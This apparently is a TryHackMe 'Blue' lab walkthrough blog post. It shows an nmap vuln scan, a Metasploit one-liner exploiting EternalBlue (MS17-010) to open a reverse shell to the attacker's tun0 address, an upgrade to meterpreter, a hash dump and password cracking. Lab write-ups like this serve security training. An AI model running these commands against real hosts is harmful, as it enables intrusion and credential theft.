 ```yaml
---
layout: post
title: "TryHackMe - Blue"
date: 2023-06-29 15:30:00 -0000
categories: nmap metasploit
excerpt: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
featured_image: "/assets/images/thm-blue/thm-blue-hero.png"
---
```


## Recon  

**Set a terminal environmental variable for target IP address**  

```
export IP=<target-ip-address> 
```

**Run nmap services and vulnerabilities scan**  

```  
nmap -sV -vv --script=vuln $IP  
```  

![](/assets/images/thm-blue/thm-blue-nmap-command.png)    

**Results**  

![](/assets/images/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability affecting Microsoft SMBv1 servers (ms17-010).  

More info:  

https://www.exploit-db.com/exploits/41891  

## Exploit  

**Run msfconsole and perform reverse TCP shell exploit**
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We can set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally).  

**Metasploit go brrrr...**    

 ![](/assets/images/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is now running.  

**Results**  

  ![](/assets/images/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, but eventually we get a reverse TCP shell.  

**Backgrounding the shell example**    

```  
background  
```  
  
> Ctrl-z does the same thing.  

 ![](/assets/images/thm-blue/thm-blue-background-example.png)

**Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell**  

**Search for the upgrade script**   
```
search upgrade shell   
```  

 ![](/assets/images/thm-blue/thm-blue-search-upgrade-shell-1.png)  

**Select the script for use**  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches).  
  A Super l33t hax0r trick about upgrading shells is here...  
 https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html 

 ![](/assets/images/thm-blue/thm-blue-run-upgrade-shell.png)  

**Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell**  

 ![](/assets/images/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

**Run the script**  

 > The script ran, but we don't have an upgraded shell...

**Hmmm. Thats not working...**  
 
 For some reason, the script isn't upgrading our reverse TCP shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

**Let's try again**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default. Also, we don't have to set the global variables again, but this is the handy initial one-liner to go back to and use, cause honestly the reverse TCP shell kinda sucks.  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-default.png)  

**Background the meterpreter session, then view sessions. We started with default meterpreter shell**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-session-started.png)

**Reconnect to the meterpreter session and list the current processes running on the target**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-ps.png)  

**Get process ID of current meterpreter shell**

 ![](/assets/images/thm-blue/thm-blue-meterpreter-getpid.png)  

**Migrate to another process and back. Grep is kinda broken...**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-migrate.png)  

**Dump the user hashes**  

 ![](/assets/images/thm-blue/thm-blue-meterpreter-hashdump.png)  

**Quick and dirty hash crack using CrackStation**  

 ![](/assets/images/thm-blue/thm-blue-crackstation.png)  

**Quick and dirty find flags**  

 ![](/assets/images/thm-blue/thm-blue-find-flags.png)  

# Donezo Funzo.












